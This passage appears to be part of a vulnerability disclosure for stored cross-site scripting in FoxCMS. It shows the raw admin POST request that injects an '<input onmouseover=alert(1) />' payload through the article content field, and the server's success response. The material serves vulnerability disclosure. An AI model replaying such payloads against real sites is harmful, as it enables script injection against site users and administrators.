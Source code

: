 ```
			text: "取消"
		})
	},
})
```

Function point location：

<img width="2878" height="1488" alt="image" src="https://github.com/user-attachments/assets/cafea264-787a-4828-aafb-9ac9f2070512" />




Request:

```
POST /index.php/admin4435/Article/add.html HTTP/1.1
Host: www.foxcms.cms
Content-Length: 246
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.foxcms.cms
Referer: http://www.foxcms.cms/index.php/admin4435/Article/add.html?type=1&bcid=2_11
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; access_127_0_0_1=1761037029
Connection: close

title=test-xss1&brief_title=&article_field=&column_id=11&column=%E4%BC%81%E4%B8%9A%E5%8A%A8%E6%80%81&breviary_pic_id=&keywords=&description=&article_source=&author=&team_status=%2C&content=<input+onmouseover=alert(1)+/>&release_time=&click=&tags=
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.15.11
Date: Tue, 21 Oct 2025 10:05:15 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.3.4
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1800
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Authorization, Content-Type, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN, X-Requested-With
Access-Control-Allow-Origin: http://www.foxcms.cms
Set-Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; expires=Wed, 22-Oct-2025 10:05:15 GMT; Max-Age=86400; path=/
Content-Length: 59

{"code":1,"msg":"操作成功","data":"","url":"","wait":1}
```
<img width="2878" height="1614" alt="image" src="https://github.com/user-attachments/assets/d767094c-0986-4303-b930-90ddd775ccb3" />
